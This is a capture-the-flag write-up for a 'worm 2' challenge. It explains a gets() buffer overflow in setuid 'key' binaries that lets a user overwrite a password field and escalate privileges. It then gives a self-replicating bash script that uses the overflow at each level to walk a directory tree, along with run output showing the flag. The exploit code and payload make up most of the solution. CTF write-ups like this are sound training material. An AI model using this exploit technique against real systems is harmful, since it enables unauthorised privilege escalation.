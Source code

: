 # worm 2

> Note: The original challenge had an unintended solution 😢, so this is the
> patched version

Write a worm and pwn my system :)

```
nc 35.188.197.160 1002
```

Attachments: `worm2.zip`

## Overview

After connecting the server, we this:

```
$ nc 35.188.197.160 1002
Send the output of: hashcash -mb26 5qB3LV9O/rHt8dQ9
1:26:210613:5qb3lv9o/rht8dq9::obR0I0xtrnii7Z7N:3fgTk
warning: commands will be executed using /bin/sh
job 153 at Sun Jun 13 18:27:00 2021
Creating network "64d81a00b78f2c0d0e179a8992e2057b_default" with the default driver
Creating 64d81a00b78f2c0d0e179a8992e2057b_app_run ...
Creating 64d81a00b78f2c0d0e179a8992e2057b_app_run ... done
Adding group `user1' (GID 1000) ...
Done.
Adding group `user2' (GID 1001) ...
Done.
Adding group `user3' (GID 1002) ...
Done.
Adding group `user4' (GID 1003) ...
Done.
Adding group `user5' (GID 1004) ...
Done.
Adding group `user6' (GID 1005) ...
Done.
Adding group `user7' (GID 1006) ...
Done.
Adding group `user8' (GID 1007) ...
Done.
Adding group `user9' (GID 1008) ...
Done.
Adding group `user10' (GID 1009) ...
Done.
[*] Compiling key 2 ...
[*] Done
[*] Compiling key 3 ...
[*] Done
[*] Compiling key 4 ...
[*] Done
[*] Compiling key 5 ...
[*] Done
[*] Compiling key 6 ...
[*] Done
[*] Compiling key 7 ...
[*] Done
[*] Compiling key 8 ...
[*] Done
[*] Compiling key 9 ...
[*] Done
[*] Compiling key 10 ...
[*] Done
[*] Building tree with 1023 nodes ...
[*] Planting flag in a random leaf node ...
[+] Ready
[*] You now have a shell!
[*] Please enter your exploit below (max 512 chars):
```

On the remote server, we only get to execute one command non-interactively. You
can set up the challenge locally to test though:

We start off as `user1` in the root directory.
If we `cd` to `/room0`, we see:
```sh
user1@14f2437dee35:/room0$ ls -lah
total 36K
dr-xr-x--- 4 user1 user2 4.0K May 15 01:26 .
drwxr-xr-x 1 root  root  4.0K May 15 01:26 ..
-r-sr-x--- 1 user2 user1  17K May 15 01:26 key
dr-xr-x--- 4 user2 user3 4.0K May 15 01:26 room0
dr-xr-x--- 4 user2 user3 4.0K May 15 01:26 room1
```

If we try `cd room0` or `cd room1`, we get `Permission denied`. Luckily, the
`key` executable is owned by `user2` and has the `setuid` bit set. Running
`./key`, we get:

```sh
user1@14f2437dee35:/room0$ ./key
Name: idk
Unauthorized :(
```

Here's the relevant code from `key.c`:
```c
typedef struct {
    char name[32];
    char password[32];
} User;

void auth() {
    printf("Authenticating ...\n");
    assert(setuid(ID) == 0);
    assert(setgid(ID) == 0);
    system("/bin/bash");
}

int main() {
    User user;

    printf("Name: ");
    gets(user.name);

    if (strncmp(user.password, "p4ssw0rd", 8) == 0) {
        auth();
    } else {
        printf("Unauthorized :(\n");
    }
return 0;
}
```

There's clearly a BOF at `gets(user.name)`, so we can type in 32 characters and
overflow into `user.password` to set it to `p4ssw0rd`.

```sh
user1@14f2437dee35:/room0$ ./key
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp4ssw0rd
Authenticating ...
user2@14f2437dee35:/room0$ id
uid=1001(user2) gid=1001(user2) groups=1001(user2),1000(user1)
```

Now we're `user2` and can `cd` to `room0` or `room1`. In `/room0/room1`, we see
nearly the exact same thing:
```sh
user2@14f2437dee35:/room0/room1$ ls -lah
total 36K
dr-xr-x--- 4 user2 user3 4.0K May 15 01:26 .
dr-xr-x--- 4 user1 user2 4.0K May 15 01:26 ..
-r-sr-x--- 1 user3 user2  17K May 15 01:26 key
dr-xr-x--- 4 user3 user4 4.0K May 15 01:26 room0
dr-xr-x--- 4 user3 user4 4.0K May 15 01:26 room1
```

Again if we try to `cd room0` or `cd room1`, we get `Permission denied`, so we
have to use the `key`.

We know that `MAX_DEPTH = 10` so directory structure forms a full binary tree,
and the flag is located in a random leaf node.
```python
def plant_flag():
    os.chdir("room0")
    while len(os.listdir()) > 0:
        os.chdir(f"room{random.randint(0, 1)}")

    os.rename("/flag.txt", "./flag.txt")
```

Finally, our entire exploit must be less than 512 characters (external
networking is disabled so we can't download any additional payloads):
```bash
echo "[*] You now have a shell!"
echo "[*] Please enter your exploit below (max 512 chars):"
read -n 512 cmd
exec su user1 -c "$cmd" 0<&-
```

## Solution

Do depth-first search with a self-replicating exploit:
```bash
echo -n . 1>&2

if [ -f "flag.txt" ]; then
    cat flag.txt 1>&2
fi

if [ -f "key" ]; then
    payload=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp4ssw0rd
    (echo $payload && echo "cd room0 && exec bash /tmp/solve.sh") | ./key > /dev/null
    (echo $payload && echo "cd room1 && exec bash /tmp/solve.sh") | ./key > /dev/null
fi
```

Output:
```sh
$ python3 client.py
[x] Opening connection to localhost on port 1024
[x] Opening connection to localhost on port 1024: Trying 127.0.0.1
[+] Opening connection to localhost on port 1024: Done
[*] Solving PoW ...
[DEBUG] Received 0x34 bytes:
    b'Send the output of: hashcash -mb26 ehmCMcCi7SHUqWes\n'
[+] Solved PoW
[DEBUG] Sent 0x35 bytes:
    b'1:26:210515:ehmcmcci7shuqwes::FmB8btNpTIqC54om:2Bd/y\n'
[DEBUG] Sent 0x150 bytes:
    b'cd /tmp && echo -n H4sIAAwmn2AC/5WPTQrCMBSE9z3FEKTookkr7sSC5xAXMT+mmCalibUFD2+tCrpSZznvfcOMEsYjc6AoynSZJJXGDpkG0ZYfaewjwX6NaJRLMErwiNflQejqDTqp4fO/4YP1XG62X9SsQrjkrZygubqXmj1ZpCkmgwiJ1vs6n5xeCRx4MGCxbljwtlM0GLLAFZSNPVCCSdUxd7b2l9Ti/9Rx+g33VaPsPwEAAA== | base64 -d > solve.sh.gz && gzip -d solve.sh.gz && cd /room0 && bash /tmp/solve.sh\n'
[*] Switching to interactive mode
warning: commands will be executed using /bin/sh
job 20 at Sat May 15 01:44:00 2021
Creating network "9a97ccccc44d5152637380a682ac72ea_default" with the default driver
Creating 9a97ccccc44d5152637380a682ac72ea_app_run ... 
Creating 9a97ccccc44d5152637380a682ac72ea_app_run ... done
Adding group `user1' (GID 1000) ...
Done.
Adding group `user2' (GID 1001) ...
Done.
Adding group `user3' (GID 1002) ...
Done.
Adding group `user4' (GID 1003) ...
Done.
Adding group `user5' (GID 1004) ...
Done.
Adding group `user6' (GID 1005) ...
Done.
Adding group `user7' (GID 1006) ...
Done.
Adding group `user8' (GID 1007) ...
Done.
Adding group `user9' (GID 1008) ...
Done.
Adding group `user10' (GID 1009) ...
Done.
[*] Compiling key 2 ...
[*] Done
[*] Compiling key 3 ...
[*] Done
[*] Compiling key 4 ...
[*] Done
[*] Compiling key 5 ...
[*] Done
[*] Compiling key 6 ...
[*] Done
[*] Compiling key 7 ...
[*] Done
[*] Compiling key 8 ...
[*] Done
[*] Compiling key 9 ...
[*] Done
[*] Compiling key 10 ...
[*] Done
[*] Building tree with 1023 nodes ...
[*] Planting flag in a random leaf node ...
[+] Ready
[*] You now have a shell!
[*] Please enter your exploit below (max 512 chars):
........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................CCC{I_c4nt_b3l1ev3_1_f0rg0t_t0_cl0s3_std1n}
.......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................[*] Got EOF while reading in interactive
```
